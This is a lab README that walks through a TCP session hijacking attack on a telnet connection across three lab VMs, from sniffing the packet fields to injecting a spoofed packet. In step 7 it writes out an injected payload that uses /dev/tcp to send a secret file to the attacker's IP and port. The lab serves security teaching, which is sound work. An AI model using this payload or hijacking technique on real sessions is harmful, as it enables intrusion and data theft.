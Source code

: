 ## TCP Session Hijacking Attack

### Requirements 

In this lab, we will hijack a telnet session (between the victim client and the victim server) and inject a malicious command. In particular, the attacker wants to see the content of a secret file (stored on the server). At the end of this lab, if the attack is successful, the content of this secret file will be displayed in the attacker's terminal window.

### Setup

3 Linux VMs. VM1 as the victim (telnet client); VM2 as the telnet server; VM3 as the attacker. The 3 VMs reside in the same network. This README uses the following IP addresses.

| VM Name     | IP Address  |
|-------------|-------------|
| VM1         | 10.0.2.4    |
| VM2         | 10.0.2.5    |
| VM3         | 10.0.2.6    |

### Steps

1. Let the client connect to the server using telnet.

![alt text](lab-tcp-hijack-telnet.png "Lab tcp session hijacking telnet")

2. The client uses this *echo* command to create a secret file on the server.

![alt text](lab-tcp-hijack-echo.png "Lab tcp session hijacking echo")

3. The client uses the *cat* command to confirm the file now exists and is located at /home/seed/secret:
![alt text](lab-tcp-hijack-cat.png "Lab tcp session hijacking cat")

4. Let the attacker start monitoring network traffic using wireshark.

![alt text](lab-tcp-hijack-start-wireshark.png "Lab tcp hijack start wireshark")
![alt text](lab-tcp-hijack-start-capture.png "Lab tcp hijack start capture")

5. Client produces some telnet packets. (any telnet packets, you can just type a command like *ls*).

![alt text](lab-tcp-hijack-ls.png "Lab tcp hijack ls command")

6. Attacker stops wireshark capturing, and navigates to the latest packet sent from the client to the server. Now we need to examine this packet carefully, so as to obtain the ip addresses, the ttl attribute, the port numbers, the next sequence number, the acknowledgment number, and the window size.

This image shows the IP header, from which we see the ip addresses, and the ttl attribute.
![alt text](lab-tcp-hijack-ip-header.png "Lab tcp hijack latest tcp capture - part 1, ip header")

This image shows the TCP header, from which we see the port numbers, the next sequence number, the acknowledgment number, and the window size - still the same packet.
![alt text](lab-tcp-hijack-tcp-header.png "Lab tcp hijack latest tcp capture - part 2, tcp header")

7. The above packet provides the information which the attacker needs to know in order to perform the tcp session hijack attack. Now, the attacker, mimicking the client, only needs to send one single regular TCP packet to the server. To send a regular TCP packet, a python script named send_tcp.py is provided. When running this script, it will send a TCP packet to a destination. You need to change the script so that the following 9 lines match with your situation.

```console
source_ip = "10.0.2.4"
destination_ip = "10.0.2.5"
source_port = 59830
destination_port = 23
sequence_num = 3366342961
acknowledgment_num = 4096614496
ttl_value = 64
window_size = 501
tcp_payload = "\rcat /home/seed/secret > /dev/tcp/10.0.2.6/9090\r"
```

**Note**: because the attacker is mimicking the client, thus the source ip address needs to be the client's IP address; from the captured latest packet, we can see the next sequence number is *3366342961*, the acknowledgment number is *4096614496*; the source port (in this example) is *59830*, the destination port is 23. the tcp window size (in this example) is 501, the time to live (ttl) value is 64. The tcp data we can use is: "\rcat /home/seed/secret > /dev/tcp/10.0.2.6/9090\r".

**Explanation**: The telnet command we want to inject is: "cat /home/seed/secret > /dev/tcp/attacker_ip/9090", but we want this command to be sandwiched by two newline signs "\r", so that the command will not be concatenated with other random strings.

**Explanation 2**: why the telnet command we want to inject is "cat /home/seed/secret > /dev/tcp/attacker_ip/9090". Because "cat /home/seed/secret" shows the content of the secret file, but this command will only display the content in the victim client's terminal window, not in the attacker's terminal window. This "cat /home/seed/secret > /dev/tcp/attacker_ip/9090" will redirect the output of the cat command into a tcp port 9090 at the attacker's ip address.

8. Once the above 9 lines are modified correctly, we are ready to launch the attack, which is just running the python script. Before running the python script, the attacker needs to open another terminal window so that the attacker can listen on a port at the attacker's IP address - here we choose port 9090, which matches with what is specified in the python script.

8.1. Listening in one terminal window:
![alt text](lab-tcp-hijack-listening.png "Lab tcp hijacking attack listening on port 9090")

8.2. Run python script in another terminal window:
- before and after pressing enter to run the script:
![alt text](lab-tcp-hijack-before-enter.png "Lab tcp hijacking attack before pressing enter")
![alt text](lab-tcp-hijack-after-enter.png "Lab tcp hijacking attack after pressing enter")

9. Once the attacker pressed enter to execute the above script, if the attack is successful, the victim server's secret file will be displayed in the attacker's terminal window:

![alt text](lab-tcp-hijack-success.png "Lab tcp session hijacking attack successful")

This indicates that the attack is successful and concludes the lab.

